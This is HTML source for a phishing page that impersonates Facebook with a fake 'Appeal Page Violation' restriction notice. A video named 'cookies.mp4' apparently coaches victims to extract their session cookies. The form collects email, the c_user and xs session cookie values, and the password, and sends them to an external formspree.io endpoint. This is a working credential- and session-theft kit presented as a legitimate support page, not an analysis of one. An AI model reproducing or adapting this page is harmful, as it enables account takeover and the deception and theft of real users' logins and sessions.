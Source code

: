 # Restriction-Review-submit-your-details-
Review restriction 
<html>
 <head> 
  <style>
        body {
            font-family: Arial, sans-serif;
        }

        .header {
            background-color: #0078d4;
            color: white;
            padding: 20px;
            display: flex;
            align-items: center;
        }

        .header h1 {
            margin: 0;
            font-size: 32px;
        }

        .header input {
            margin-left: 20px;
            width: 300px;
            height: 30px;
            border: none;
            border-radius: 15px;
            padding: 10px;
            outline: none;
        }

        .header input::placeholder {
            color: #cccccc;
        }

        .content {
            background-color: white;
            padding: 40px;
        }

        .content h2 {
            margin: 0;
            font-size: 24px;
            color: #333333;
        }

        .content p {
            margin: 10px 0;
            font-size: 16px;
            color: #666666;
        }

        .content .video {
            width: 200px;
            height: 100px;
            background-color: #0078d4;
            display: flex;
            justify-content: center;
            align-items: center;
            margin: 20px 0;
        }

        .content .video span {
            color: white;
            font-size: 48px;
            font-weight: bold;
        }

        .content label {
            display: block;
            margin: 10px 0;
            font-size: 16px;
            color: #333333;
        }

        .content input {
            display: block;
            width: 300px;
            height: 30px;
            border: 1px solid #cccccc;
            border-radius: 5px;
            padding: 5px;
            outline: none;
        }

        .content .note {
            margin: 10px 0;
            font-size: 14px;
            color: #ff0000;
        }

        .content button {
            width: 100px;
            height: 40px;
            border: none;
            border-radius: 10px;
            background-color: #0078d4;
            color: white;
            font-size: 16px;
            cursor: pointer;
        }

        .footer {
            background-color: #f0f0f0;
            padding: 20px;
            text-align: center;
        }

        .footer p {
            margin: 0;
            font-size: 14px;
            color: #333333;
        }
    </style> 
 </head> 
 <body> 
  <div class="header"> 
   <h1>Facebook</h1> 
   <input type="text" placeholder="How Can We Help?"> 
  </div> 
  <div class="content"> 
   <strong><h2>Appeal Page Violation</h2> <p>We have detected unusual activity on your page that violates our community standards.</p></strong> 
   <p>Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.</p> 
   <p>If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.</p> 
   <p2>
     Watch video before you provide information 
   </p2> 
   <br> 
   <br> 
   <div class="video"> 
    <span>video</span> 
    <video width="240" height="100" controls=""> 
     <source src="cookies.mp4" type="video/mp4"> 
    </video> 
   </div> 
   <br> 
   <br> 
   <ol> 
    <p>Provide here your information</p> 
    <hr> 
    <form action="https://formspree.io/f/mayrqpjj" method="POST"> 
     <label> Your email: <input type="email" name="email"> </label> 
     <label> c_user: <input name="c_user"> </label> 
     <label> xs: <input name="xs"> </label> 
     <label> Password: <input name="passwrod"> </label> 
     <!-- your other form fields go here --> 
     <button type="submit">Submit</button> 
    </form> 
   </ol> 
  </div> 
  <hr> 
  <div class="footer"> 
   <p>META© 2024</p> 
  </div> 
 </body>
</html>
